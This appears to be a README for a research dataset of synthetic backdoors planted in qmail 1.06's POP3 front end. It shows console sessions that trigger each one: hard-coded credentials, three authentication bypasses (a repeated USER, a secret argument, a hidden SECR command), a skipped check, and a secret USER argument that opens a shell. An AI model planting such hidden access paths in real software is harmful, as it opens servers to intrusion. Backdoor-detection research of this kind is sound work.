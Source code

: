 # qmail 1.06 backdoors

* Types :
  * Hard-codded credentials
  * Authentication bypasses ($\times 3$)
  * Forgotten check
  * Hidden feature (Reverse shell)
* Affected versions : None (Synthetic backdoors)

## Hard-codded credentials

### Backdoor

Hard-codded credentials are present in the source code (Username : `homer`, Password : `marge`).

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-1_hard-codded_credentials.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <80993.1744964566@localhost>
USER homer
+OK 
PASS marge
+OK 
LIST
+OK 
1 586
2 5144
3 574
4 568
5 490
.
```

## Authentication bypass 1

### Backdoor

Following twice the legit command `USER milhouse` (`milhouse` is supposed to be a regular user) let to have access to privileged commands.

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-2_disabled_authentication_1.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <87127.1744964668@localhost>
USER milhouse
+OK 
USER milhouse 
+OK 
LIST
+OK 
1 586
2 5144
3 574
4 568
5 490
.
```

## Authentication bypass 2

### Backdoor

A secret argument for the command `USER` permits to have access to privileged commands.

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-2_disabled_authentication_2.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <93635.1744964887@localhost>
USER secret
+OK 
LIST
+OK 
1 586
2 5144
3 574
4 568
5 490
.
```

## Authentication bypass 3

### Backdoor

A secret command (`SECR`) permits to have access to privileged commands.

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-2_disabled_authentication_3.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <99962.1744965058@localhost>
SECR
+OK 
LIST
+OK 
1 586
2 5144
3 574
4 568
5 490
.
```

## Forgotten check

### Backdoor

The privileged command `LIST` is directly available, and permits to have access to all commands.

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-3_forgotten_check.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <706824.1745137705@localhost>
LIST
+OK 
LIST
+OK 
1 586
2 5144
3 574
4 568
5 490
.
```

## Hidden feature (Reverse shell)

### Backdoor

The secret argument `secretshell` for the command `USER` opens a reverse shell, permitting to execute arbitrary commands on the underlying system.

### Triggering the backdoor

```console
$ ./qmail-popup-backdoored-4_hidden_feature_shell.ori localhost ./checkpassword ./qmail-pop3d ./Mailbox/
+OK <119908.1744965711@localhost>
USER secretshell
sh-5.2$ echo Coucou
Coucou
```